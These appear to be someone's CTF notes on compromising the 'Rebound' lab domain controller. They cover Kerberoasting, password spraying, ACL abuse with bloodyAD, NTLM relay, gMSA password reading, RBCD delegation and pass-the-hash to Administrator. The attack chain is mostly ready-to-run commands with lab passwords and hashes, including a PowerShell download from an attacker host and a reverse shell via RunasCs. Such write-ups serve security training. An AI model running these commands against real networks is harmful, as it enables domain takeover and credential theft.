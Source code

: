 Basically it comes to this

1. Find all valid users on the domain  --rid-brute 10000 of cme smb

2. Use the user that does not have kerberos pre-auth set to check for SPNs against the user list.  with the impacket spn nopreauth branch ! in .env!

3. Crack the TGS of the ldap_monitor (hashcat mode 13100 is for TGS...)  `1GR8t@$$4u`



4. Check which other user may use the same password   Password Spray! and `oorend has 1GR8t@$$4u`

5. Check the ACLs for this particular user 

6. Find a way to get to the ServiceMgmt group

7. Abuse the permission that this group has to be able to connect to the DC via winrm 




bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 add groupMember SERVICEMGMT oorend

python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Coder123$'



and with winrm we can login as winrm_svc service 


now nc.exe spawing shell for stability



sharphound.exe -c all 


winrm_svc --> (CanPsRemote)  tbrady --> (ReadGMSAPassword) Delegator$ --> (by Enterprise Admins) Administrator 




create 



`https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained`


SPN is not allowed to delegate by user ldap_monitor or initial TGT not forwardable


i can still tbrady hash 

`query user  tbrady activate console`

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999 && 
sudo python3 ~/Tools/impacket/examples/ntlmrelayx.py -t ldap://10.10.11.231 --no-wcf-server --escalate-user winrm_svc
```

.\RemotePotato0.exe -m 2 -r 10.10.x.x -x 10.10.x.x -p 9999 -s 1


find tbrady hash




john crack hash


543BOMBOMBUNmanda


.\RunasCs.exe tbrady 543BOMBOMBUNmanda cmd.exe -r IP:PORT



`powershell -exec bypass -c "iwr http://10.10.16.4:7777/GMSAPasswordReader.exe -outfile gmsa.exe"`


gmsadumper --> impacket 

```
faketime -f +7h python3 ~/Tools/impacket/examples/getTGT.py 'rebound.htb/delegator$@dc01.rebound.htb' -hashes :9b0ccb7d34c670b2a9c81c45bc8befc3

export KRB5CCNAME=./delegator\$@dc01.rebound.htb.ccache



bloodyAD -d rebound.htb -u tbrady -p '543BOMBOMBUNmanda' --host dc01.rebound.htb get object 'delegator$' --resolve-sd --attr msDS-ManagedPassword
faketime -f +7h impacket-getTGT 'rebound.htb/delegator$@dc01.rebound.htb' -hashes aad3b435b51404eeaad3b435b51404ee:9b0ccb7d34c670b2a9c81c45bc8befc3 -dc-ip 10.10.11.231

export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache


impacket-rbcd 'rebound.htb/delegator$' -k -no-pass -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -use-ldaps -dc-ip $IP -debug 



rubeus --> all hashes

impacket-wmiexec -hashes :176be138594933bb67db3b2572fc91b8 rebound.htb/administrator@dc01.rebound.htb





```







